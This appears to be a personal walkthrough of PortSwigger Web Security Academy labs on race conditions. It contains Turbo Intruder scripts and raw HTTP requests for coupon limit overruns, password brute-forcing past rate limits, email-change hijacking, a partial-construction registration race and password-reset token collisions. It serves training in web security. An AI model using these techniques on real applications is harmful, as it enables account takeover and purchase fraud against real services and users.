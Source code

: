 # Race Conditions
Race conditions occur when websites process requests concurrently without adequate safeguards. This can lead to multiple distinct threads interacting with the same data at the same time, resulting in a "collision" that causes unintended behavior in the application. A race condition attack uses carefully timed requests to cause intentional collisions and exploit this unintended behavior for malicious purposes. 

### LAB: Limit overrun race conditions
Apply the coupon for the first time and send that `POST /cart/coupon HTTP/2` to repeater for as many time as you want (the more the better). 
Group all those request into a group.
Remove the coupon.  
Use the `Send group (parallel)` function to apply the coupon many times.
Keep doing that process until you got the price that you want and place order.

### LAB: Bypassing rate limits via race conditions
Send `POST /login HTTP/2` to repeater. Change `username` to `carlos`, highlight the value of `password` and send it to Turbo Intruder.
Use `race-single-packet-attack.py` and slightly modify it to use our wordlist from clipboard:

    def queueRequests(target, wordlists):
        # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
        # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
        # for more information, check out https://portswigger.net/research/smashing-the-state-machine
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )

        passwords = wordlists.clipboard

        # the 'gate' argument withholds part of each request until openGate is invoked
        # if you see a negative timestamp, the server responded before the request was complete
        for password in passwords:
            engine.queue(target.req, password, gate='race1')

        # once every 'race1' tagged request has been queued
        # invoke engine.openGate() to send them in sync
        engine.openGate('race1')

    def handleResponse(req, interesting):
        table.add(req)

Start the attack and notice the `302` response code, that is the password of user `carlos`.

### LAB: Multi-endpoint race conditions
Notice the vulnerability can occur when payment validation and order confirmation are performed during the processing of a single request. In this case, you can potentially add more items to your basket during the race window between when the payment is validated and when the order is finally confirmed.
First add a gift card to the cart:

    POST /cart HTTP/2
    productId=2&redir=PRODUCT&quantity=1

Send the request that add the target product to cart and the checkout request to a group in Repeater. Then send them in parallel using `Send group (parallel)`:

    POST /cart HTTP/2
    productId=1&redir=PRODUCT&quantity=1

    POST /cart/checkout HTTP/2
    csrf=vLoUJ2LkjNlmwzLOfuz1BM7waSnhptqY

Repeat the process until the target product is bought.
> Note: warming up connection
> In Burp Repeater, you can try adding a GET request for the homepage to the start of your tab group, then using the Send group in sequence (single connection) option. If the first request still has a longer processing time, but the rest of the requests are now processed within a short window, you can ignore the apparent delay and continue testing as normal.

### LAB: Single-endpoint race conditions
Send this request to repeater and duplicate it: 

    1. POST /my-account/change-email
       email=carlos%40ginandjuice.shop&csrf=1IogGOxtqFjRaz16yRHqq2ilrh2nhpQC

    2. POST /my-account/change-email
       email=wiener@exploit-0ab300c3042da6dfdd5f74bf01bd0067.exploit-server.net&csrf=1IogGOxtqFjRaz16yRHqq2ilrh2nhpQC

Group the 2 request and send them in parallel using `Send group (paralllel)` (might need to retry several times for this to work).
This will take advantage of the race condition vulnerability at the `/change-email` endpoint which cause the server to misbehave and send the confirmation email to the attacker's email.

### LAB: Partial construction race conditions
When registering a new user, an application may create the user in the database and set their API key using two separate SQL statements. This leaves a tiny window in which the user exists, but their API key is uninitialized. 
This kind of behavior paves the way for exploits whereby you inject an input value that returns something matching the uninitialized database value, such as an empty string, or null in JSON, and this is compared as part of a security control. 
In PHP: 
- `param[]=foo` is equivalent to `param = ['foo']`
- `param[]=foo&param[]=bar` is equivalent to `param = ['foo', 'bar']`
- `param[]` is equivalent to `param = []`

In Ruby on Rails: `param[key]` is equivalent to `params = {"param"=>{"key"=>nil}}`
In this lab found that `users.js` is sending the confirmation request via this:

    POST /confirm?token=abcxyz HTTP/2

Make use of the vulnerability as described above, try sending this request which set the token value to an empty array:

    POST /confirm?token[]= HTTP/2

Now use Turbo Intruder to first send the registration request and then immediately send another 50 confirmation requests to exploit race condition:

    POST /register HTTP/2
    Host: 0a46000d0451dd4180fea877003b0086.web-security-academy.net
    Cookie: phpsessionid=HZwgup6YaMUka49rsLDdbTAJ85LAflon
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 88
    Origin: https://0a46000d0451dd4180fea877003b0086.web-security-academy.net
    Referer: https://0a46000d0451dd4180fea877003b0086.web-security-academy.net/register
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Priority: u=0, i
    Te: trailers

    csrf=u74o0pHtyDEPsQc7k6lypI21zsEgrcVr&username=%s&email=sth%40ginandjuice.shop&password=123

Use this script and start the attack:

    def queueRequests(target, wordlists):

        engine = RequestEngine(endpoint=target.endpoint,
                                concurrentConnections=1,
                                engine=Engine.BURP2
                                )
        
        confirmationReq = '''POST /confirm?token[]= HTTP/2
    Host: 0a46000d0451dd4180fea877003b0086.web-security-academy.net
    Cookie: phpsessionid=HZwgup6YaMUka49rsLDdbTAJ85LAflon
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
    Origin: https://0a46000d0451dd4180fea877003b0086.web-security-academy.net
    Referer: https://0a46000d0451dd4180fea877003b0086.web-security-academy.net/confirm?token[]=
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Priority: u=0, i
    Te: trailers

    '''
        for attempt in range(20):
            currentAttempt = str(attempt)
            username = 'dog' + currentAttempt
        
            # queue a single registration request
            engine.queue(target.req, username, gate=currentAttempt)
            
            # queue 50 confirmation requests - note that this will probably sent in two separate packets
            for i in range(50):
                engine.queue(confirmationReq, gate=currentAttempt)
            
            # send all the queued requests for this attempt
            engine.openGate(currentAttempt)

    def handleResponse(req, interesting):
        table.add(req)

Look for the successful message and login with that account to delete user `carlos`.

### LAB: Exploiting time-sensitive vulnerabilities
Notice the token to reset password is of constant length. This indicates that the server might use some hash on a random value such as timestamp.
To successfully bypass this, we must send to reset password requests (1 for the victim, 1 for ourself) that the server would process at the same time.
But even if we group them and send in parallel, the 2 requests differ in time it is respond. This might be due to the way PHP server works (1 request at a time per session).
To circumvent this send to `GET /forgot-password HTTP/2` requests, obtain the `phpsessionid` and `csrf` value and replace it inside the 2 POST requests:

    POST /forgot-password HTTP/2
    Host: 0a0e003e04af104e81f80c4d008100ec.web-security-academy.net
    Cookie: phpsessionid=BGoQ0gJWxzPkxgjw2vhRNqsp9Jo3gH7p

    csrf=PYSnVQPIkY1gS5z7LeMJo4xXzTfC8ziP&username=carlos


    POST /forgot-password HTTP/2
    Host: 0a0e003e04af104e81f80c4d008100ec.web-security-academy.net
    Cookie: phpsessionid=zhqJk4SauhIr36EN5IJnaZU5TjY48tvM

    csrf=gMwRWHJwDUw3IVVPAMlJ7xaEkioFVmuD&username=wiener

Send them in parallel using `Send group (parallel)` and visits `wiener`'s email to obtain the `token` value. Use this token to reset `carlos` password using this request:

    POST /forgot-password?user=carlos&token=d3e92a3daf8835df52da0bfd3e72e37159cb969d HTTP/2
    Host: 0a0e003e04af104e81f80c4d008100ec.web-security-academy.net
    Cookie: phpsessionid=PNpxLcJrdTe5X4SRb0c044iZpdkh3jwo

    csrf=gg7Tof2M4a1REKey6NaypTP9aBojK6Wn&token=d3e92a3daf8835df52da0bfd3e72e37159cb969d&user=carlos&new-password-1=123&new-password-2=123